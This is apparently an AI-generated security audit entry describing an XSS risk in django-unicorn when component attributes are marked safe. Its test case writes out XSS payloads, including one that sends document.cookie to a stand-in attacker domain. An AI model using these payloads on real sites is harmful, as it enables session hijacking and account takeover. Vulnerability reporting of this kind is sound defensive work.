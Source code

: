 Based on your instructions, the provided vulnerability report for Cross-Site Scripting (XSS) via Unsafe HTML Attributes in django-unicorn is valid and should be included in the updated list.

Here is the updated vulnerability list in markdown format:

* Vulnerability name: Cross-Site Scripting (XSS) via Unsafe HTML Attributes

* Description:
    1. An attacker can inject malicious JavaScript code into a component's attribute (e.g., `name` property in a component).
    2. When the component is rendered and updated via AJAX, the injected JavaScript code can be executed in the victim's browser if the attribute is marked as `safe` and the developer has not sanitized the input.
    3. This occurs when developers explicitly use `Meta: safe = ("attribute_name",)` or the `|safe` template filter without proper input sanitization in the component's Python code, allowing unsanitized user-controlled data to be rendered as HTML.

* Impact:
    - Critical
    - An attacker can execute arbitrary JavaScript code in the context of the victim's browser.
    - This can lead to session hijacking, account takeover, defacement, or redirection to malicious sites, causing significant harm to users and the application's integrity.

* Vulnerability rank: critical

* Currently implemented mitigations:
    - Default HTML encoding of component output is enabled to prevent XSS in most cases.
    - The `safe` Meta class option and `|safe` template filter are documented, requiring developers to explicitly opt-out of HTML encoding for specific attributes or template variables.
    - Documentation warns against putting sensitive data into public properties and recommends using `javascript_exclude` to limit data exposure to the client.
    - Changelog for v0.36.0 highlights the default HTML encoding as a security fix for CVE-2021-42053.

* Missing mitigations:
    - Automatic input sanitization is not enforced when developers use the `safe` feature, either through `Meta` or the `|safe` template filter. The framework relies on developers to manually sanitize input before marking attributes as safe.
    - Documentation lacks explicit and prominent guidance on *how* to sanitize inputs effectively when using the `safe` feature, increasing the risk of developers overlooking this crucial step.
    - The framework does not offer built-in sanitization utilities or recommend specific sanitization libraries within its documentation to aid developers in secure coding practices when using `safe`.

* Preconditions:
    - A Django Unicorn component must have a publicly accessible attribute that is explicitly marked as `safe` in the component's `Meta` class or used with the `|safe` template filter in the template.
    - User input must be able to influence this `safe` attribute, either directly through `unicorn:model` binding in templates or indirectly through other component logic and methods that process user-provided data.
    - Developers must fail to sanitize the user-provided input in the component's Python code *before* assigning it to the `safe` attribute.

* Source code analysis:
    - The `views.py` within `django_unicorn.views` package is responsible for processing component requests and rendering updates.
    - Around line 282 of `django_unicorn\views\__init__.py`, the code iterates through `safe_fields` defined in the component's `Meta` class.
    - For each field marked as `safe`, the code retrieves the attribute value from the component instance using `getattr(component, field_name)`.
    - If the value is a string (`isinstance(value, str)`), it's marked as safe for HTML rendering using `mark_safe(value)` from `django.utils.html`. This step bypasses Django's automatic HTML escaping for this specific attribute when it's rendered in the template.
    - **Vulnerable Code Snippet (Conceptual Location):**
    ```python
    # In django_unicorn\views\__init__.py (conceptual location, actual line number may vary)
    for field_name in safe_fields:
        value = getattr(component, field_name)
        if isinstance(value, str):
            # mark_safe bypasses HTML escaping, creating XSS risk if 'value' is user-controlled and unsanitized.
            setattr(component, field_name, mark_safe(value))
    ```
    - **Code Visualization (Data Flow):**

    ```
    [User Input via HTTP Request] --> Django Unicorn View --> Component Instance --> Attribute marked as 'safe' (via Meta class) --> `mark_safe()` is applied --> Template Rendering (no further sanitization) --> HTTP Response (Unsafe HTML) --> Browser (XSS execution)
    ```

* Security test case:
    1. Create a Django application with Django Unicorn installed.
    2. Define a Django Unicorn component (e.g., `xss_component.py`) with an attribute named `unsafe_content` and explicitly mark it as `safe` within the `Meta` class:
    ```python
    # xss_component.py
    from django_unicorn.components import UnicornView

    class XSSView(UnicornView):
        unsafe_content = ""

        class Meta:
            safe = ("unsafe_content",)
    ```
    3. Create a template for this component (e.g., `xss.html`) that includes an input field bound to `unsafe_content` using `unicorn:model` and displays the `unsafe_content` within a `div`:
    ```html
    <!-- xss.html -->
    <div>
        <input type="text" unicorn:model="unsafe_content">
        <div id="xss-output" unicorn:id="xss-output">{{ unsafe_content }}</div>
    </div>
    ```
    4. Create a Django view and template to include this Unicorn component on a page accessible to external users.
    5. Access the page in a web browser as an external attacker.
    6. In the input field, inject a standard XSS payload, for example: `<img src='x' onerror='alert("XSS Vulnerability")'>`.
    7. Observe if an alert box with "XSS Vulnerability" appears in the browser. This indicates successful execution of JavaScript from the injected payload, confirming the XSS vulnerability.
    8. For a more impactful test, use a payload to attempt cookie theft or redirection: `<img src='x' onerror="document.location='https://attacker-controlled-domain.com/steal?cookie='+document.cookie">`. Monitor network requests to see if a request is sent to the attacker's domain, potentially containing session cookies, which would further demonstrate the critical impact of this XSS vulnerability.

This refined list only includes the identified XSS vulnerability because it meets all the inclusion criteria (valid, not fully mitigated, rank >= high) and does not fall under the exclusion criteria (not solely developer's insecure code outside of framework feature, not only documentation issue, not DoS).
